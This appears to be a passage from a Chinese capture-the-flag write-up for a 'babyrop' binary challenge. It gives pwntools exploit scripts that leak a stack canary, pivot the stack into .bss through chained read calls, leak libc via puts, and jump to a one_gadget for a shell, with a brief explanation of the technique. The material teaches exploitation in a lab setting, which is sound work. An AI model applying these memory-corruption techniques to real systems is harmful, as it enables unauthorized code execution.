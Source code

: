 ```python
pop_rdi_ret =0x400913
pop_rsi_r15_ret = 0x0400911
pop_rbp_ret = 0x0400698
passwd = 0x4009AE
bss_addr = elf.bss()+0x500+0x20 # bss()获取bss段地址是__bss_start的地址
puts = elf.sym['puts']

sa("What your name? ",'b'*0x19)
ru('b'*0x18)
canary = u64(p.recv(8))-0x62
lg('canary',canary)
p.recvuntil("Please input the passwd to unlock this challenge\n")
p.sendline(str(passwd))
p.recvuntil("message\n")
pl = 'a'*0x18+p64(canary)+p64(bss_addr)+p64(read)
p.send(pl)
pl1 = p64(puts_got) + p64(puts) + p64(read)+p64(canary)
pl1 += p64(bss_addr-0x30)+p64(read)
p.send(pl1)
pl = 'a'*0x18+p64(canary)+p64(bss_addr+0x50)+p64(pop_rdi_ret)
p.send(pl)
puts_addr = u64(p.recv(6).ljust(8,'\x00'))
libc_base = puts_addr- libc.sym['puts']
lg('libc_base',libc_base)
one_gadget = 0x4f3d5 + libc_base
pl = 'a'*0x18+p64(canary)+p64(0)+p64(one_gadget)
p.sendline(pl)
p.interactive()
```
![bss构造](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-40f4db69b5d2200a.png)
这种构造是三次栈迁移(这里的vuln就是read功能)
第一次是在buf读内容，溢出跳转read
第一次在0x500读入内容，溢出跳转read
第二次在0x4c0读入内容（设置好rbp）。溢出跳转poprdi（相当于用读2次来扩充read大小，原大小不足以构建完整payload）
最后执行vuln时，就会往设置好的rbp输入内容ret one_gadget

> read跳转:
>  栈溢出利用read时，往往read函数的buf不是我们想要的bss段
>  ![read](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-c035b542d2c20133.png)
>  我们会发现这里的buf是[rbp+buf]->rax->rsi，而在栈中我们知道buf = rbp-0x20，所 
>  以设置rbp为 我们要输入的位置 + 0x20 这样buf就被修改为我们需要读入的bss段了


第二种
```python
from pwn import *
context.log_level = "debug"

s       = lambda data               :p.send(data)
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda name,data          :p.success(name + "-> 0x%x" % data)

p = process("./babyrop")

sa("? \n", "a"*0x19)
ru('a'*0x18)
canary = u64(p.recv(8))-0x61
lg('canary',canary)
```